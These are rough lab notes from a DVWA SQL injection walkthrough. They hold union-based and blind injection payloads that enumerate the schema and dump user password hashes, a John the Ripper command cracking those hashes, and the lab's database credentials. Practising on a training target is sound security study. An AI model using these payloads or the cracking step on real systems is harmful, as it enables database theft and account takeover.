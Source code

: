 https://sharpforce.gitbook.io/cybersecurity/walkthroughs/damn-vulnerable-web-application/damn-vulnerable-web-application-dvwa/sql-injection-blind/niveau-medium

# SQL Injection

1' union select 'username', 'password' -- -
1' union SELECT DATABASE(), 'abc' -- -

ID: 1' union SELECT DATABASE(), 'abc' -- -
First name: dvwa
Surname: abc

0' union SELECT table_name, 'abc' FROM information_schema.tables WHERE table_schema = 'dvwa' -- -

ID: 0' union SELECT table_name, 'abc' FROM information_schema.tables WHERE table_schema = 'dvwa' -- -
First name: users
Surname: abc

ID: 0' union SELECT table_name, 'abc' FROM information_schema.tables WHERE table_schema = 'dvwa' -- -
First name: guestbook
Surname: abc


0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: user_id
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: first_name
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: last_name
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: user
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: password
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: avatar
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: last_login
Surname: abc

ID: 0' union  SELECT COLUMN_NAME, 'abc' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND TABLE_NAME = 'users' -- -
First name: failed_login
Surname: abc

0' union  SELECT user, password FROM users -- -


ID: 0' union  SELECT user, password FROM users -- -
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: 0' union  SELECT user, password FROM users -- -
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: 0' union  SELECT user, password FROM users -- -
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 0' union  SELECT user, password FROM users -- -
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 0' union  SELECT user, password FROM users -- -
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99



admin:5f4dcc3b5aa765d61d8327deb882cf99
gordonb:e99a18c428cb38d5f260853678922e03
1337:8d3533d75ae2c3966d7e0d4fcc69216b
pablo:0d107d09f5bbe40cade3de5c71e9e9b7
smithy:5f4dcc3b5aa765d61d8327deb882cf99

$ john  --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
$ john  hashes.txt --show --format=Raw-MD5
admin:password
gordonb:abc123
1337:charley
pablo:letmein
smithy:password







union  SELECT COLUMN_NAME, \xbf\x27abc\xbf\x27 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = \xbf\x27dvwa\xbf\x27 AND TABLE_NAME = \xbf\x27users\xbf\x27 -- -



10 union select user, password from users -- -

ASCII Hex

10 union SELECT DATABASE(), 1 -- -
==> dvwa


0x64767761 = dvwa

10 union SELECT table_name, 1 FROM information_schema.tables WHERE table_schema = 0x64767761 -- -
First name: users
First name: guestbook

SELECT concat('0x',hex(ascii('u')),hex(ascii('s')),hex(ascii('e')), hex(ascii('r')), hex(ascii('s')))
0x7573657273=users


0' union  SELECT COLUMN_NAME, 1 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 0x64767761 AND TABLE_NAME = 0x7573657273 -- -

First name: user_id
First name: first_name
First name: last_name
First name: user
First name: password
First name: avatar
First name: last_login
First name: failed_login


10 union SELECT users, password FROM  users -- -

$_DVWA = array();
$_DVWA[ 'db_server' ]   = '127.0.0.1';
$_DVWA[ 'db_database' ] = 'dvwa';
$_DVWA[ 'db_user' ]     = 'dvwa';
$_DVWA[ 'db_password' ] = 'p@ssw0rd';
$_DVWA[ 'db_port'] = '3306

$con = mysqli_connect( $_DVWA[ 'db_server' ],  $_DVWA[ 'db_user' ],  $_DVWA[ 'db_password' ], "", $_DVWA[ 'db_port' ] );



0' union select 1, 2 -- -
0' union SELECT user, password FROM users where user='admin
0' union SELECT user, password FROM users -- -
0' union SELECT concat(user), concat(password) FROM users -- -

SELECT ord(substr("abcd",2,1))


# blink

$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 

## Name of database
dwva

1000' union select 1, 1 FROM users -- -

1000' union select user, password FROM users -- -
1000' union select user, password FROM users where user='admin

1000' union select user, password FROM users where SUBSTRING(user,1,1)='a
1000' union select user, password FROM users where SUBSTRING(user,1,5)='admin
1000' union select user, password FROM users where SUBSTRING(user,1,5)='admin
1000' union select user, password FROM users where user='admin' and length(user)='5
1000' union select user, password FROM users where user='admin' and length(user)=5 -- -
1000' union select user, password FROM users where user='admin' and length(password)=32 -- -

## medium

0x64767761
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;"; 
1000 union select 1, 2 where length(DATABASE())=4
1000 union select 1, 2 where hex(substr(DATABASE(),1,1))=64
1000 union select 1, 2 where hex(substr(DATABASE(),2,1))=76
1000 union select 1, 2 where hex(substr(DATABASE(),3,1))=77
1000 union select 1, 2 where hex(substr(DATABASE(),4,1))=61




1000 union select user, password FROM users -- -
1000 union select user, password from users where user_id=1 -- -

1000 union select user, password FROM users where user='admin' and length(password)=32 -- -
1000 union select user, password FROM users where length(password)=32 -- -
select user, password from users where user_id=1000 union select user, password from users where user_id=1 -- -
